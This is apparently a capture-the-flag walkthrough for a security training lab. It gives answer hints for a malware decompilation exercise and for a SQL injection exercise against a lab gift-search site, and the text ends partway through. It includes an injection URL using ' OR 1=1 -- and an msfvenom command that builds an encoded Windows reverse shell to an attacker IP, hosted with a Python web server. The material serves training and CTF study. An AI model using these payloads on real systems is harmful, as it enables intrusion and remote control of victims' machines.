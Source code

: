 Click on `PostIt(string, string) : string @06000008` to find the HTTP method.

**Q3: What key is used by the malware to encrypt or decrypt the C2 data?**

Click on `Decryptor(string) : string @06000005` or `Encryptor(string) : string @06000004` to find the key.

**Q4: What is the first HTTP URL used by the malware?**

Click on `Main(string[]) : void @06000001`.

Check lines 6 and 7 for the URL.

**Q5: How many seconds is the hardcoded value used by the sleep function?**

Click on `Main(string[]) : void @06000001`.

Check line 10 for the sleep count in milliseconds. Convert it to seconds.

**Q6: What is the C2 command the attacker uses to execute commands via cmd.exe?**

Click on `Main(string[]) : void @06000001`.

Check line 32 for the C2 command.

**Q7: What is the domain used by the malware to download another binary?**

Click on `Main(string[]) : void @06000001`.

Check line 43 for the domain.

<br>

## Day 10 - Inject the Halls with EXEC Queries 

**Q1: Manually navigate the defaced website to find the vulnerable search form. What is the first webpage you come across that contains the gift-finding feature?**

On the homepage, find the link under the **Gift Search** section.

**Q2: Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?**

Navigate to this URL for the error message: `http://<IP>/giftresults.php?age=child&interests=toys&budget=10000000000`

**Q3: Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?**

Navigate to this URL for the flag: `http://<IP>/giftresults.php?age=%27%20OR%201=1%20--`

**Q4: What flag is in the note file Gr33dstr left behind on the system?**

Create the reverse shell payload and host it on a web server.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.34.103 LPORT=4444 -f exe -e x86/shikata_ga_nai -o rshell_4444.exe

python3 -m http.server 8000
```
